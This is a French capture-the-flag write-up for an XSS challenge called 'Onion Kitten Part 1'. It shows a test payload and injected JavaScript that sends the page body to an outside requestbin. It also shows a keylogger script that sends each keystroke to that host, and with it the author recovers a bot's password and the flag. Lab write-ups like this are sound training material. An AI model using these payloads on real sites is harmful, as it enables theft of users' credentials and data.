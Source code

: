 # Onion Kitten Part 1
## Description :
Nous avons découvert un forum assez suspect dans les mails précedemment découverts. Trouvez un moyen de vous connecter et de récupérer les identifiants d'un utilisateur pour découvrir ce qu'il se trame.

## Information complémentaire : 
Un chat est disponible, il est potentiellement vulnérable. Il n'est pas utile d'usurper la session de l'utilisateur, nous avons besoin de son mot de passe !

## Source :
https://ia.challenge.operation-kernel.fr/

---

## Resolution : 
Indice mis à notre disposition :
- Il est indiqué que j'ai besoin de récupérer son mot de passe.

En allant sur le site, j'ai remarqué qu'il y'avait une partie "Chat". Je rentre mon username et j'essaie de voir s'il y a une XSS en envoyant dans le chat `<script>alert(1)</script>`, j'ai bien une pop-up qui apparaît avec écrit 1.

A partir d'ici, je sais que je peux exploiter une faille XSS pour réussir à avoir le mot de passe de l'utilisateur. Je suis un tuto qui est présent sur ce site : [XSS Password Stealing](https://medium.com/dark-roast-security/password-stealing-from-https-login-page-and-csrf-bypass-with-reflected-xss-76f56ebc4516).

Après plusieurs essaie, je me rends compte que l'utilisateur n'envoie pas de requête submit ou c'est protégé. J'utilise le site [Requestbin](https://pipedream.com/requestbin) afin de vérifier si l'utilisateur est déjà connecté ou non, grâce à ce code qui me permet de recevoir ce que l'utilisateur voit en arrivant sur le site : 
```
var XHR = new XMLHttpRequest();
XHR.open('POST', 'https://eowk3k3zl6kfmdt.m.pipedream.net', true);
XHR.send(encodeURIComponent(document.body.innerHTML));
```
En décodant le body, je peux remarquer qu'il est n'est pas connecté et que son nom dans le chat est "bot".

Je me dis qu'il a sûrement une protection sur le submit donc je décide de faire un payload permettant de récupérer les touches tapés par le bot.

```
let i = 0;
function logKey(e){ 
    i++;
    fetch(`https://eowk3k3zl6kfmdt.m.pipedream.net/?key=${e.key}&type=${e.target.id}&number=${i}`);
}
document.addEventListener('keypress', logKey);
``` 
Ce script permet de recevoir la touche qui a été pressé grâce à l'option `e.key`, l'option `e.target.id` permet de savoir s'il a été saisi dans le login ou password et le number `i` me permet de savoir dans quel ordre je dois positionner ce que je reçois en lettre.

Une fois que toutes les requêtes reçu et traités j'obtiens ça :
- Login : Shopeors
- Mot de passe : X5S_4_3V3r!!

Voici le flag final : `HACK{X5S_4_3V3r!!}`
